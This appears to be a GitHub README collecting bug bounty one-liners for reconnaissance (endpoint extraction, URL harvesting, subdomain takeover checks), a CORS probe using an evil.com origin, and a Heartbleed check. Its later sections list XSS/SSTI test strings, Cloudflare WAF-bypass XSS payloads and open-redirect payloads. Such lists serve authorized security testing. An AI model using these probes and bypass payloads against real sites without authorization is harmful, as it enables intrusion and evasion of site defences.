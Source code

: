 # BugBounty Resources

## Introduction


I always have to search for commands everytime I start to hunt for bugs.Therefore, I created this repository to list all useful commands of different useful tools. My intention is to make a repo containing all the important commands used for Bug Bounty. 

If you think any important commands were not listed in this repository, feel free contribute. 

## Extracting endpoints from JavaScript files:
	cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u

## Extracting Juicy Information:
    for sub in $(cat domains.txt);do /usr/bin/gron "https://otx.alienvault.com/otxapi/indicator/hostname/url_list/$sub?limit=100&page=1" | grep "\burl\b" | gron --ungron | jq |egrep -wi 'url' | awk '{print $2}' | sed 's/"//g'| sort -u | tee -a file.txt  ;done

## Extracting all the urls from sitemap
	curl -s domain.com/sitemap.xml | xmllint --format - | grep -e 'loc' | sed -r 's|</?loc>||g'

## CORS Misconfiguration:
    site="https://example.com"; gau "$site" | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done

## Heartbleed vulnerability
    cat domains.txt
        example.com
        subdomain.example.com
    cat list.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line: safe; done
  
 ## Finding subdomains and check for takeovers 
      subfinder -d {target} >> domains ; assetfinder -subs-only {target} >> domains ; amass enum -norecursive -noalts -d {target} >> domains ; subjack -w domains -t 100 -timeout 30 -ssl -c ~/fingerprints.json -v 3 >> takeover ;
    
  ## Testing SQLi + XSS + SSTI with the same payload use
  	"><svg/onload=prompt(5);>{{7*7}}
  
  ##  XSS Cloudflare WAF bypass: 
  	<img%20id=%26%23x101;%20src=x%20onerror=%26%23x101;;alert`1`;>
	<select><noembed></select><script x=’a@b’a>y=’a@b’//a@b%0a\u0061lert(1)</script x>
	<a+HREF=’%26%237javascrip%26%239t:alert%26lpar;document.domain)’>
	
  ## Valid URLs (Open Redirect Vulnerability)
	http(s)://evil.com
	http(s):\\evil.com
	//evil.com
	///evil.com
	/\/evil.com
	\/evil.com
	\\evil.com
	\/\evil.com
	/	/evil.com (That's a Tab Key / ASCII 0x09)
	\	\evil.com (That's a Tab Key / ASCII 0x09)

#### Refrences:
  - https://github.com/dwisiswant0/awesome-oneliner-bugbounty
  - https://github.com/XalfiE/Bug-Bounty-Oneliners
  - https://bbinfosec.medium.com/collection-of-bug-bounty-tip-will-be-updated-daily-605911cfa248
  
